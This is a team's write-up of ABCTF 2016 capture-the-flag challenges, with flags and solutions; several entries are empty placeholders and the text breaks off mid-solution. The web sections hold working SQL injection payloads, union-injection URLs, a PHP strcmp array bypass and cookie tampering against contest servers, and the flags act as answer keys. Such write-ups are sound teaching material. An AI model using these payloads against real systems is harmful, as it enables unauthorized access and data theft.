

# ABCTF 2016

Week-long CTF in July 2016  
Team: Galaxians

## Overview

```
Title                      Category             Points  Flag
-------------------------- -------------------  ------- -----------------------------
Caesar Salad               Cryptography         10      abctf{w3_thought_w3_n33d3d_on3_of_th3s3}
Elemental                  Web Exploitation     10      ABCTF{insp3ct3d_dat_3l3m3nt}
Virtual Box 1              Virtual Series       10      ABCTF{FREE_P0INTS}
Just open it               Forensics            15      ABCTF{forensics_1_tooo_easy?}
Virtual Box 2              Virtual Series       15      ABCTF{H1DDEN_AWAY}
TGIF                       Programming          30      ABCTF{194}
GZ                         Forensics            30      ABCTF{broken_zipper}
Virtual Box 3              Virtual Series       35      ABCTF{FR0M_THE_FUTURE}
The Flash                  Web Exploitation     35      ABCTF{no(d3)_js_is_s3cur3_dasjkhadbkjfbjfdjbfsdajfasdl}
Drive Home                 Reconnaissance       50      abctf{g00gle_driv3_1s_my_f4v0r1t3}
Archive Me                 Reconnaissance       50      ABCTF{Archives_are_useful!}
Chocolate                  Web Exploitation     50      ABCTF{don't_trust_th3_coooki3}
Best Ganondorf             Forensics            50      abctf{tfw_kage_r3kt_nyway}
Java Madness               Reverse Engineering  50      ABCTF{ftc tselooc eht si ftcba}
Hide and Seek              Binary Exploitation  50
Yummi                      Cryptography         60      ABCTFLOVESBACONIAN
Virtual Box 4              Virtual Series       60      ABCTF{Y0U_F0UND_ME}
MoonWalk                   Forensics            60      ABCTF{PNG_S0_C00l}
Slime Season 3             Programming          60      7315
Old RSA                    Cryptography         70      ABCTF{th1s_was_h4rd_in_1980}
L33t H4xx0r                Web Exploitation     70      abctf{always_know_whats_going_on}
AES Mess                   Cryptography         75      abctf{looks_like_you_can_break_aes}
Virtual Box 5              Virtual Series       75
Virtual Box 6              Virtual Series       75      ABCTF{I_L0VE_PATTERNS}
PasswordPDF                Forensics            80
Get 'Em All                Web Exploitation     80      ABCTF{th4t_is_why_you_n33d_to_sanitiz3_inputs}
JS Pls                     Reverse Engineering  80      ABCTF{node_is_w4Ck}
Safety First               Web Exploitation     95
Always So Itchy            Reconnaissance       100     ABCTF{DoYouThinkISpentTooMuchTimeOnThis}
RacecaR                    Programming          100     DbrMrbD
Virtual Box 7              Virtual Series       100
Meteor Smash               Web Exploitation     100
Qset1                      Programming          100
Zippy                      Forensics            120
The Big Kahuna             Programming          120     abctf{28}
A Small Broadcast          Cryptography         125
Obfuscated 1               Programming          130     UUU2__22223
Encryption Service         Cryptography         140
Reunion                    Web Exploitation     150     abctf{uni0n_1s_4_gr34t_c0mm4nd}
Qset2                      Programming          150
Sexy RSA                   Cryptography         160     ABCTF{i_h4ve_an_RSA_fetish_;)}
Custom Authentication      Cryptography         160
Inj3ction                  Web Exploitation     170
Qset 3                     Programming          200
AudioEdit                  Web Exploitation     200
Frozen Recursion           Reverse Engineering  250
Liorogamerdvd              Reconnaissance       300
```


## Cryptography 10: Caesar Salad

**Challenge**  
Most definitely the best salad around. Can you decrypt this for us?
```
xyzqc{t3_qelrdeq_t3_k33a3a_lk3_lc_qe3p3}
```

**Solution**  
The traditional caesar shift first challenge, turned out to be ROT-16:

**Flag**  
```
abctf{w3_thought_w3_n33d3d_on3_of_th3s3}
```

## Web Exploitation 10: Elemental
**Challenge**  
Just put in the password for the flag! [Link](http://yrmyzscnvh.abctf.xyz/web1/)

**Solution**  
Web page with a password field, password was in source as a comment, entering it in field gave the flag

**Flag**  
```
ABCTF{insp3ct3d_dat_3l3m3nt}
```

## Virtual Series 10: Virtual Box 1
**Challenge**  
Do you know how to use a VM? Download the Virtual Machine here.

**Solution**  
just run the VM, was windows 98, flag was in a file named `flag.txt` on the desktop

**Flag**
```
ABCTF{FREE_P0INTS}
```

## Forensics 15: Just open it
**Challenge**  
I'm almost positive we put a flag in [this](writeupfiles/forensics15.jpg) file. Can you find it for me?

*Hint: So many editors out there!*

**Solution**  
file was an image:


```
$ strings forensics15.jpg
[..]
f~ZF.~
QEAaE
P ABCTF{forensics_1_tooo_easy?}
=0s^
)8,=
Wt;fR
[..]
```
**Flag**  
```
ABCTF{forensics_1_tooo_easy?}
```

## Virtual Series 15: Virtual Box 2
**Challenge**  
Darn, I found this flag so I put it in flag 1.doc but I can't seem to be able to see it anymore.

**Solution**  
there was some more invisible text in the file named `flag.txt` on the desktop, this was the second flag

**Flag**
```
ABCTF{H1DDEN_AWAY}
```

## Programming 30: TGIF
**Challenge**

Friday is the best day of the week, and so I really want to know how many Fridays there are in [this](writeupfiles/date.txt) file. But, with a twist. I want to know how many Fridays there are one year later than each date.

**Solution**

```python
import datetime
count = 0
with open("date.txt") as f:
    for line in f:
        l2=line.strip().split()
        l2[2]=str(int(l2[2])+1)
        line=' '.join(l2)
        try:
            day = datetime.datetime.strptime(line, '%B %d, %Y').strftime('%A')
            if day == "Friday":
                count+=1
        except:
            pass
print count
```
output: `194`

**Flag**  
```
ABCTF{194}
```


## Forensics 30: GZ
**Challenge**
We shot a flag into [this](writupfiles/forensics30) file but some things got messed up on the way...

Can you somehow get the flag from this website?

**Solution**  
The file was gzipped.

**Flag**  
```
ABCTF{broken_zipper}
```

## Virtual Series 35: Virtual Box 3
**Challenge**  
This mysterious file was left here, but I have no idea how to open it. Do you? I left it in a folder named 2016 just for you.

**Solution**  
file had no extension, but was a zip file, unpack, search all the files, find the flag in one of them.

**Flag**
```
ABCTF{FR0M_THE_FUTURE}
```

## Web Exploitation 35: The Flash
**Challenge**  
Can you somehow get the flag from this website?

**Solution**  
website with password field, comment in html, base64 decode to get password, gives flag

```html
<!-- c3RvcHRoYXRqcw== -->
```

which is `stopthatjs`, entering this in password field gives the flag in the source

**Flag**
```
ABCTF{no(d3)_js_is_s3cur3_dasjkhadbkjfbjfdjbfsdajfasdl}
```

## Reconnaissance 50: Archive Me
**Challenge**
If you could look at our website from a while ago im sure the flag would be there...

**Solution**
Checked archive.org for old copies of the website. There were two, the second one had the flag in the source.
https://web.archive.org/web/20160510192307/http://abctf.xyz

**Flag**
```
ABCTF{Archives_are_useful!}
```

## Web exploitation 50: Chocolate
**Challenge**

If you could become admin you would get a flag. <website link>

**Solution**
website said `You're not an admin. Please leave this site.`

Found a cookie containing value `e2FkbWluOmZhbHNlfQ==`, base64 decodes to `{admin:false}`, change the cookie to `base64("{admin:true}")` and reload the page gave the flag

**Flag**
```
ABCTF{don't_trust_th3_coooki3}
```

## Forensics 50 - Best Ganondorf

**Challenge**  
You know the deal. Find a flag in [this](writeupfiles/ezmonay.jpg) file?

**Solution**  

File has `.jpg` extension but is not a valid jpeg. We open in a hex editor and it looks like it could be a jpeg file, but the header is invalid

we change the first two bytes of the header to `FFD8` and now we can view the image (which contains the flag)


**Flag**  
```
abctf{tfw_kage_r3kt_nyway}
```

## Reconnaissance 50: Drive Home
**Challenge**  
We found this link scribbled on a piece of paper: document/1_TxYCrk5vIMlUjiB1OioXmR7b-Uq_a9aPIh9JyYlPNs/edit?usp=sharing. It is broken but we need you to fix it!

**Solution**  
It is a google drive URL, needs to be expanded into the [full version](https://docs.google.com/document/d/1_TxYCrk5vIMlUjiB1OioXmR7b-Uq_a9aPIh9JyYlPNs/edit) which contains the flag


**Flag**  
```
abctf{g00gle_driv3_1s_my_f4v0r1t3}
```

## Reverse Engineering 50: Java Madness
**Challenge**
Hey if you can get this to pass some tests you could probably have the flag.

```java
public class what_the_hack {
    public static void main(String[] args) {
        String check = "";
        if(args.length != 5){
            System.out.println("Almost! (;");
        }
        else {
            for(int i = args.length - 1; i >= 0; i--){
                System.out.println(i);
                for(int j = args[i].length() - 1; j >= 0; j--){
                    check += args[i].charAt(j);
                    System.out.println(args[i].charAt(j));
                }
            }
            if(check.equals("abctf is the coolest ctf")){
                System.out.println("Flag: " + "ABCTF{" + args[0] + args[1] + args[2] +args[3] + args[4] + "}");
            }
            else{
                System.out.println(check);
            }
        }
    }
}
```

**Solution**
The associated java file used a couple loops to reverse the five arguments. The
key was encoded in the file as "abctfs is the coolest ctf". After understanding
what the loop did I `echo 'abctf is the coolest ctf' | rev` to get the key

**Flag**
```
ABCTF{ftc tselooc eht si ftcba}
```

## Binary Exploitation 50: Hide and Seek

**Challenge**   
There is a flag hidden somewhere in [this](writeupfiles/haha-1) binary. Good luck!

**Solution**  

**Flag**
```
flag
```

## Cryptography 60: Yummi
Well [this](writeupfiles/baconian.bmp) image means something and we need you to figure it out!


*Hint: Water -> Fish, Mud -> ???*

**Solution**  
All pixels were either black or white, convert to bitstring

```python
from PIL import Image

img = Image.open('baconian.bmp').convert('RGB')
pixels_orig = img.load()

(w,h)=img.size

s=[]
for j in range(0,w):
    for i in range(0,h):    
      (r,g,b) = pixels_orig[j,i]
      s.append(str(r&1))

print ''.join(s)
```
output

```
000000000100010100110010101011011101010100100100100000100000000100111001101010000000001101
```

File was named `baconian.bmp` so we suspect a bacon cipher, and indeed when we decode we get the flag

**Flag**  
```
ABCTFLOVESBACONIAN
```

## Virtual Series 60: Virtual Box 4
**Challenge**  
What's this?

**Solution**  
There was a file named `whats this` in recycle bin, restored it, found it originated from location `C:\Program Files\Outlook Express\ABCTF{Y0U_F0UND_ME}`

**Flag**
```
ABCTF{Y0U_F0UND_ME}
```

## Forensics 60: Moonwalk

**Challenge**  
There is something a little off about [this](writeupfiles/PurpleThing.png) picture. If you could help us we could give you some points! Just find us a flag!


**Solution**  

There was more data appended to the end of the image, we can extract this using `binwalk`

```
$ binwalk PurpleThing.png                     [16-07-16 17:56:05]

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 3200 x 2953, 8-bit/color RGBA, non-interlaced
85            0x55            Zlib compressed data, best compression
2757          0xAC5           Zlib compressed data, best compression
765455        0xBAE0F         JPEG image data, JFIF standard 1.01
765485        0xBAE2D         TIFF image data, big-endian, offset of first image directory: 8
1809691       0x1B9D1B        StuffIt Deluxe Segment (data): f

```

we extract the jpeg image

```
$ binwalk --dd=jpeg PurpleThing.png
```


**Flag**  
```
ABCTF{PNG_S0_C00l}
```

## Programming 60: Slime Season
**Challenge**  

I only pay in coins because I'm hipster, but I forgot to bring my nickels today! But I really want to buy this elite gaming computer. What's the smallest amount of coins you need to make $1,827.43 using quarters, dimes, and pennies.

**Solution**  

this is the change making problem, we can solve it with a dynamic programming approach

```python
def _get_change_making_matrix(set_of_coins, r):
     m = [[0 for _ in range(r + 1)] for _ in range(len(set_of_coins) + 1)]
     for i in range(r + 1):
         m[0][i] = i
     return m

def change_making(coins, n):

     m = _get_change_making_matrix(coins, n)

     for c in range(1, len(coins) + 1):
         for r in range(1, n + 1):
             # Just use the coin coins[c - 1].
             if coins[c - 1] == r:
                 m[c][r] = 1
             elif coins[c - 1] > r:
                 m[c][r] = m[c - 1][r]
             else:
                 m[c][r] = min(m[c - 1][r], 1 + m[c][r - coins[c - 1]])
     return m[-1][-1]

print change_making((1,10,25),182743)
```

output:

```
7315
```

**Flag**
```
7315
```

## Cryptography 70: Old RSA

**Challenge**  

I'm sure you can retrieve the flag from this file.

file:
```
I recovered an RSA encrypted message from the 1980's. can you decrypt it?

c = 29846947519214575162497413725060412546119233216851184246267357770082463030225
n = 70736025239265239976315088690174594021646654881626421461009089480870633400973
e = 3
```

*Hint: Some good math skills may help.*

**Solution**  
Followed a
[previous](https://github.com/shiltemann/CTF-writeups-public/blob/master/Hackvent_2015/writeup.md)
descrpition of how to solve this type of problem.

```
N=70736025239265239976315088690174594021646654881626421461009089480870633400973
C=29846947519214575162497413725060412546119233216851184246267357770082463030225
e=3
```

[factordb.com](http://factordb.com/index.php?query=70736025239265239976315088690174594021646654881626421461009089480870633400973) tells us the p's and q's.

```
p=238324208831434331628131715304428889871
q=296805874594538235115008173244022912163
```

```python
from Crypto.PublicKey import RSA
import gmpy2

def int2Text(number, size):
    text = "".join([chr((number >> j) & 0xff) for j in reversed(range(0, size << 3, 8))])
    return text.lstrip("\x00")

N = 70736025239265239976315088690174594021646654881626421461009089480870633400973
C = 29846947519214575162497413725060412546119233216851184246267357770082463030225
p = 238324208831434331628131715304428889871L
q = 296805874594538235115008173244022912163L
r=(p-1)*(q-1)
e = 3L
d = long(gmpy2.divm(1, e, r))

rsa = RSA.construct((N,e,d,p,q))
pt = rsa.decrypt(C)

print pt  # returns 6872557977505747778161182217242712228364873860070580111494526546045
print int2Text(pt,100) #returns ABCTF{th1s_was_h4rd_in_1980}
```

**Flag**  
```
ABCTF{th1s_was_h4rd_in_1980}
```

## Web Exploitation 70: L33t H4xx0r

**Challenge**  

If you could bypass the login you could get the flag. [Link](http://yrmyzscnvh.abctf.xyz/web6/)

**Solution**  

We get to a webpage with a password field and the message `Seems like your not a haxxor`. We are also given the source:

```php
<?php
    $FLAGWEB6 = (file_get_contents("flag.txt"));
    $PASSWORD =  (file_get_contents("flag.txt")); //haha

    if(isset($_GET['password'])){

    if(strcmp($PASSWORD, $_GET['password']) == 0){
            $success = true;
        }
        else{
            $success = false;
        }
    }
    else {
        $success = false;
    }
?>

```

we see that they use the `strcmp` function to check the password. We can bypass this
by supplying an array named password, instead of a variable, which will always
return 0 in the strcmp function.

```
http://yrmyzscnvh.abctf.xyz/web6/?password[]=bla
```

**Flag**  
```
abctf{always_know_whats_going_on}
```

## Virtual Series 75: Virtual Box 5

**Challenge**  
I accidentaly closed out this odd message I found. Can you get it back?

**Solution**  

**Flag**  
```
flag
```

## Virtual Series 75: Virtual Box 6
**Challenge**  
I really love this pattern, can I set it as my wallpaper? [Here](http://i.imgur.com/L7M8N4Y.png) it is.

**Solution**  
We look at the different files used to set patterns on your desktop, and in one names `hounds tooth` we find the flag.

It was also among the recent files in paint.



**Flag**
```
ABCTF{I_L0VE_PATTERNS}
```


## Cryptography 75: AES Mess

**Challenge**  

We encrypted a flag with AES-ECB encryption using a secret key, and got the hash:
```
e220eb994c8fc16388dbd60a969d4953f042fc0bce25dbef573cf522636a1ba3fafa1a7c21ff824a5824c5dc4a376e75
```

However, we lost our plaintext flag and also lost our key and we can't seem to decrypt the hash back :(.
Luckily we encrypted a bunch of other flags with the same key. Can you recover the lost flag using [this](writeupfiles/aesmess.txt)?

**Solution**  

AES in ECB mode has the unfortunate characteristic that identical plaintext, when encrypted with the same key always outputs the same ciphertext,
since we are given a bunch of encryptions of different plaintext using the same key, we can use this to find our decryption.

Each of the blocks in our given plaintext appears exactly in one of the other encryption, so we can reconstruct the plaintext

```
e220eb994c8fc16388dbd60a969d4953f042fc0bce25dbef573cf522636a1ba3fafa1a7c21ff824a5824c5dc4a376e75

block1: e220eb994c8fc16388dbd60a969d4953
block2: f042fc0bce25dbef573cf522636a1ba3
block3: fafa1a7c21ff824a5824c5dc4a376e75


abctf{looks_like_gospel_feebly}:
e220eb994c8fc16388dbd60a969d4953 <-- // abctf{looks_like
6d896bd7d6da9c4ce3eac5e4832c2f64     //_gospel_feebly}

abctf{verism_evg_you_can_break_ajugas}:
528c30c67c57968fa131684d07c1fa9c     // abctf{verism_evg
f042fc0bce25dbef573cf522636a1ba3 <-- // _you_can_break_a
c0bd6ceeec8e817f1be7b09a9a8b0fb8     // jugas}

abctf{amidin_ogees}:
5f0ec66748ad4e9c512616572dd9197b     // abctf{amidin_oge
fafa1a7c21ff824a5824c5dc4a376e75 <-- // es}
```

so now we just put the three plaintext blocks together to obtain the key:

```
block1: e220eb994c8fc16388dbd60a969d4953   -   abctf{looks_like
block2: f042fc0bce25dbef573cf522636a1ba3   -   _you_can_break_a
block3: fafa1a7c21ff824a5824c5dc4a376e75   -   es}
```

**Flag**  

```
abctf{looks_like_you_can_break_aes}
```

## Forensics 80: PasswordPDF
**Challenge**  
Oh no. We locked [this PDF](writeupfiles/mypassword.pdf) and forgot the password. Can you help us?

*Is there anyway to guess the password?*

**Solution**  
**Flag**  
```
flag
```

## Web Exploitation 80: Get 'Em all

**Challenge**  
I think one of the users data fields holds a flag. If only you could find the username. Link

**Solution**  
SQL injection challenge, we enter the following in the input field:

```
' or 'x'='x
```

and get the following output, which includes the flag

```
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: ABCTF{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
```

**Flag**  
```
ABCTF{th4t_is_why_you_n33d_to_sanitiz3_inputs}
```

## Reverse Engineering 80: JS Pls
**Challenge**  
Can you figure out the flag from [this](writeupfiles/jspls.js)? Have fun ;)

```
eval(new Buffer('cHJvY2Vzcy5z [..snip..] pdCgpO30pOwo=','base64').toString());
```

**Solution**  

We base64 decode and find [obfuscated javascript](writeupfiles/jspls2.js)

```javascript
process.stdin.resume();
process.stdin.setEncoding('utf8');
console.log('Give me a flag');
process.stdin.on('data', (t) = > {
  t = t.trim();
  if (t.length === + [[ + ! + []] + [! + [] + ! + [] + ! + [] + ! + [] + ! + [] + ! + [] + ! + [] + ! + [] + ! + []]]) {

[..snip..]   

     ! + []] + (!![] + []) [ + ! + []]]) [ + ! + [] + [ + []]] + (!![] + []) [ + ! + []]]) [! + [] + ! + [] + [ + []]]](! + [] + ! + [] + [ + ! + []])) {
                console.log('nice job!');
                process.exit();
              }
            }
          }
        }
      }
    }
  }
  console.log('nope!');
  process.exit();
});
```

looks like [jsfuck](https://esolangs.org/wiki/JSFuck) or [hieroglyphy](https://github.com/alcuadrado/hieroglyphy)

there exist [poisonjs](https://ooze.ninja/javascript/poisonjs/) for deobfuscation javascript

deobfuscating yields:

```javascript
process.stdin.resume();
process.stdin.setEncoding('utf8');
console.log("Give me a flag");
process.stdin.on('data', function(t) {
   t = t.trim();
   t = t.split('}')[0]+'}';
   console.log(t.length);
   if (t.length == 19) {
    if (t.substr(0, 5) == "ABCTF") {console.log(t[18] == 125);
   if (t[18] == '}' && t[5] == '{') {console.log('2');
    if (t.substr(6, 4) === "node") {console.log('3');
     if (t[10] == t[13] && t[10] == '_') {console.log('4');
      if (t.substr(11, 2) == "is") {console.log('4');
       if (t.substr(14, 4) == "w4Ck"){
             console.log("nice job!");
             process.exit();
         }
       }
     }
    }
   }
  }
 }
 console.log("nope!");
 process.exit();
});
```

**Flag**  
```
ABCTF{node_is_w4Ck}
```

## Web Exploitation 95: Safety First
**Challenge**  
There is a way to exploit the calculator [here](http://yrmyzscnvh.abctf.xyz/web7/).

**Solution**  

source:

```html
<html>
<head>
  <link rel="stylesheet" href="main.css">
    <script type="text/javascript" src="calc.js"></script>
    </head>
    </body>
    <center><h3 style="color: black; font-size: 40px">Web 8</h3></center>
        <div class="box">
            <div class="display">
                <form action='.' method="post">
                <input type="text" name="expression" readonly size="18" id="d">
            </div>
            <div class="keys">
            <p>
            <input type="button" class="button gray" value="mrc" onclick='c("Created....................")'>
            <input type="button" class="button gray" value="m-"  onclick='c("...............by............")'>
            <input type="button" class="button gray" value="m+"  onclick='c(".....................Anoop")'>
            <input type="button" class="button pink" value="/ " onclick='v("/ ")'>
            </p>
            <p>
            <input type="button" class="button black" value="7 " onclick='v("7 ")'>
            <input type="button" class="button black" value="8"  onclick='v("8 ")'>
            <input type="button" class="button black" value="9 " onclick='v("9 ")'>
            <input type="button" class="button pink" value="* " onclick='v("* ")'>
            </p>
            <p>
            <input type="button" class="button black" value="4"  onclick='v("4 ")'>
            <input type="button" class="button black" value="5 " onclick='v("5 ")'>
            <input type="button" class="button black" value="6 " onclick='v("6 ")'>
            <input type="button" class="button pink" value="- " onclick='v("- ")'>
            </p>
            <p>
            <input type="button" class="button black" value="1 " onclick='v("1 ")'>
            <input type="button" class="button black" value=" 2" onclick='v("2 ")'>
            <input type="button" class="button black" value=" 3" onclick='v("3 ")'>
            <input type="button" class="button pink" value=" +" onclick='v("+ ")'>
            </p>
            <p>
            <input type="button" class="button black" value=" 0" onclick='v("0 ")'>
            <input type="button" class="button black" value="."  onclick='v(".")'>
            <input type="button" class="button black" value="C"  onclick='c("")'>
            <input type="submit" class="button orange" value="=">
            </p>
            </div>
        </div>
    </body>
</html>
```

and `calc.js`:

```javascript
function c(val){
    document.getElementById("d").value=val;
}
function v(val){
    document.getElementById("d").value+=val;
}
function e() {
    try {
      c(eval(document.getElementById("d").value))
    }
    catch(e){
      c('Error')
    }
}  
```

**Flag**  
```
flag
```

## Reconnaissance 100: Always so Itchy
**Challenge**  
Dialga1234 - Johnny Boy

**Solution**  

This is recon, so we google for Dialga1234, and get a hit on [Scratch](https://scratch.mit.edu), this would seem to fit with the `Itchy` in the title so we explore further

There is an application shared there, it asks for a username and password, which we don't know, but we can inspect the application and see what it does. Here we can also find the flag


**Flag**  
```
ABCTF{DoYouThinkISpentTooMuchTimeOnThis}
```

## Programming 100: RacecaR
**Challenge**  

Aren't Palindromes cool? I certainly think so, which is why I want you to find the longest palindrome in [this](writeupfiles/palindrome.txt) file.

**Solution**  

This is the longest palindrome substring problem

```python
def longestPalindrome(s):
        l = len(s)
        if l <= 2:
            if (s[0] != s[l-1]): return ''
            else: return s

        result = ''
        for i in range(0,l):
            palindrome = SearchPalindrome(s, i, i)
            if len(palindrome) > len(result): result = palindrome
            palindrome = SearchPalindrome(s, i, i+1)
            if len(palindrome) > len(result): result = palindrome
        return result

def SearchPalindrome(string, start, end):
        while(start>=0 and end < len(string) and string[start]==string[end]):
            start -= 1
            end += 1
        return string[start+1:end]


text = ''
with open('palindrome.txt') as f:
    for line in f:
        text += line.rstrip()

print longestPalindrome(text)
```

output

```
DbrMrbD
```

**Flag**  
```
DbrMrbD
```

## Virtual Series 100: Virtual Box 7
**Challenge**  
Hmm, I wish I could figure out the team that created Windows 98 without the map hassle.
**Solution**  
**Flag**  
```
flag
```

## Web Exploitation 100: Meteor Smash
**Challenge**  
Dig around in [this](http://107.170.122.6:8082/) blog and I'm sure you can find a flag.

*Hint: Someone told me my admin checks are insecure.*

**Solution**  
A blog that lets you create accounts and post messages if you are logged in.

XSS?

**Flag**  
```
flag
```

## Programming 100: Qset1
**Challenge**  
I created my own programming language and wrote an interpreter for it! [Here](writeupfiles/qset_interpreter.py) it is.

Can you create a program to multiply 2 inputs?

`nc 107.170.122.6 7771`

*Hint: Here's a program to add 2 inputs. `o0/i0,o0/i1`*

**Solution**  

```
i0,i1,..,in   are inputs
o0,o1,..,on   are outputs

o0/i0,o0/i1         --> add two inputs
o0/i0,i0/i1         --> add two inputs
o0/a,a/i0,a/i1      --> add two inputs using temp variable
o0/i0 i0            --> divided input by two
o0/i0 i0 i0         --> divided input by three
o0 a/i0             --> assign value of i0 to two variables at once (o0 and a)
o0 o0/i0            --> multiply input by two
o0 o0 o0/i0         --> multiply input by three
```


**Flag**  
```
flag
```

## Forensics 120: Zippy
**Challenge**  
If your could fix this mess I am sure there would be a flag waiting for you.

**Solution**  
The top level is a zip file with 53 files inside. They're all named
`chunk0..chunk53.zip` so we concatenate them together to be a single .zip file.

Attempting to open that indicates that a password is required. Additionally it
is indicated that there are 6890 bytes of junk in front. Not sure what this means.

This is interesting, but not sure what to make of it:

```
$ unzip -P 'abctf' tmp.zip
Archive:  tmp.zip
warning [tmp.zip]:  6890 extra bytes at beginning or within zipfile
  (attempting to process anyway)
   skipping: data.txt                incorrect password


$ unzip -P 'ABCTF' tmp.zip
Archive:  tmp.zip
warning [tmp.zip]:  6890 extra bytes at beginning or within zipfile
  (attempting to process anyway)
 extracting: data.txt                 bad CRC 6517427e  (should be c2be35e6)
    (may instead be incorrect password)

$ cat data.txt | od -tx2 -a
0000000    fbec    de00
          l   { nul   ^
0000004
```


**Flag**  
```
flag
```


## Programming 120: The Big Kahuna
**Challenge**  

What's the smallest amount of steps (additions, deletions, and replacing) it would take to make the string "massivegargantuanhugeepicginormous" into "tinysmallmicroscopicinvisible"? Don't guess too many times or we will disqualify you. Remember to wrap your answer in abctf{}.

**Solution**  

This is just the edit distance of two strings.

```python
# pip install python-Levenshtein
import Levenshtein as L
L.distance('massivegargantuanhugeepicginormous', 'tinysmallmicroscopicinvisible')
```

output

```
28
```

**Flag**  
```
abctf{28}
```

## Cryptography 125: A Small Broadcast

**Challenge**  
I RSA encrypted the same message 3 different times with the same exponent. Can you decrypt this?

```
Problem updated on 7/17/16 @ 8PM EST - fixed values
I RSA encrypted the same message 3 different times with the same exponent. Can you decrypt it?

N1:79608037716527910392060670707842954224114341083822168077002144855358998405023007345791355970838437273653492726857398313047195654933011803740498167538754807659255275632647165202835846338059572102420992692073303341392512490988413552501419357400503232190597741120726276250753866130679586474440949586692852365179
C1:34217065803425349356447652842993191079705593197469002356250751196039765990549766822180265723173964726087016890980051189787233837925650902081362222218365748633591895514369317316450142279676583079298758397507023942377316646300547978234729578678310028626408502085957725408232168284955403531891866121828640919987

N2:58002222048141232855465758799795991260844167004589249261667816662245991955274977287082142794911572989261856156040536668553365838145271642812811609687362700843661481653274617983708937827484947856793885821586285570844274545385852401777678956217807768608457322329935290042362221502367207511491516411517438589637
C2:48038542572368143315928949857213341349144690234757944150458420344577988496364306227393161112939226347074838727793761695978722074486902525121712796142366962172291716190060386128524977245133260307337691820789978610313893799675837391244062170879810270336080741790927340336486568319993335039457684586195656124176

N3:95136786745520478217269528603148282473715660891325372806774750455600642337159386952455144391867750492077191823630711097423473530235172124790951314315271310542765846789908387211336846556241994561268538528319743374290789112373774893547676601690882211706889553455962720218486395519200617695951617114702861810811
C3:55139001168534905791033093049281485849516290567638780139733282880064346293967470884523842813679361232423330290836063248352131025995684341143337417237119663347561882637003640064860966432102780676449991773140407055863369179692136108534952624411669691799286623699981636439331427079183234388844722074263884842748
```

**Solution**  

used the same value for `d` three times? can we calculate p's and q's from this? assume `e=65537`? bruteforceable?
maybe a math problem? Those values are all interrelated, set of linear equations?

-> yep, need to brush up on modular arithmetic I think

what we know about RSA:

* A public key is composed of the pair `(N,e)` - the modulus `N` and the public exponent `e`
* A private key is composed of the pair `(N,d)` -  the modulus `N` and the private exponent `d`
* Decrypting a ciphertext is taking the integer value of a ciphertext to the private exponent and applying modulo `N` to it - `c^d mod N = m`
* Encrypting a message is taking the integer value of a message to the public exponent and applying modulo `N` to it - `m^e mod N = c`
* A modulus `N` is composed of a multiplication of two (large) prime numbers `p` and `q`
* This multiplication is a trapdoor - easy in one way (multiplication), difficult in the other (factoring)
* The totien `phi(N)` can be calculated as follows: `phi(N) = phi(p*q) = (p-1)*(q-1)`
* The public exponent `e` is chosen in the range `[3,phi(N)[`, often `65537` as it is in this case
* The private exponent `d` is calculated using the `phi(N)` modular multiplicative inverse of `e` so that `e*d = 1 mod phi(N)`
* Private components are therefore `p`, `q`, `d` and `phi(N)`
* Public components are therefore `e` and `N`
* [OAEP](http://en.wikipedia.org/wiki/Optimal_asymmetric_encryption_padding) Padding is used to avoid several attacks against RSA


**Flag**  
```
flag
```

## Cryptography 140: Encryption Service

**Challenge**  

See if you can break this!!

You can connect with `nc 107.170.122.6 7765` and the source can be found here:

```python
#/usr/bin/env python
from Crypto.Cipher.AES import AESCipher

import SocketServer,threading,os,time
import signal

from secret2 import FLAG, KEY

PORT = 7765

def pad(s):
  l = len(s)
  needed = 16 - (l % 16)
  return s + (chr(needed) * needed)

def encrypt(s):
  return AESCipher(KEY).encrypt(pad('ENCRYPT:' + s.decode('hex') + FLAG))

class incoming(SocketServer.BaseRequestHandler):
    def handle(self):
        atfork()
        req = self.request

        def recvline():
            buf = ""
            while not buf.endswith("\n"):
                buf += req.recv(1)
            return buf
        signal.alarm(5)

        req.sendall("Send me some hex-encoded data to encrypt:\n")
        data = recvline()
        req.sendall("Here you go:")
        req.sendall(encrypt(data).encode('hex') + '\n')
        req.close()

class ReusableTCPServer(SocketServer.ForkingMixIn, SocketServer.TCPServer):
  pass

SocketServer.TCPServer.allow_reuse_address = True
server = ReusableTCPServer(("0.0.0.0", PORT), incoming)

print "Server listening on port %d" % PORT
server.serve_forever()
```

**Solution**  

**Flag**  
```
flag
```

## Web Exploitation 150: Reunion

**Challenge**  
SQL injection challenge, great resource for union based sql injection [here](http://securityidiots.com/Web-Pentest/SQL-Injection/Basic-Union-Based-SQL-Injection.html)

**Solution**  

first we find out how many columns there are by simply guessing and seeing when we get an output:

```
http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5 from information_schema.tables where table_schema=database()--+
no results
http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42 from information_schema.tables where table_schema=database()--+
no results
http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,134 from information_schema.tables where table_schema=database()--+
no results
http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,134,8 from information_schema.tables where table_schema=database()--+
Name: Saranac
Breed: Great Dane
Color: Black
Name: 42
Breed: 5
Color: 134
```

bingo!

next we find out the table name

```
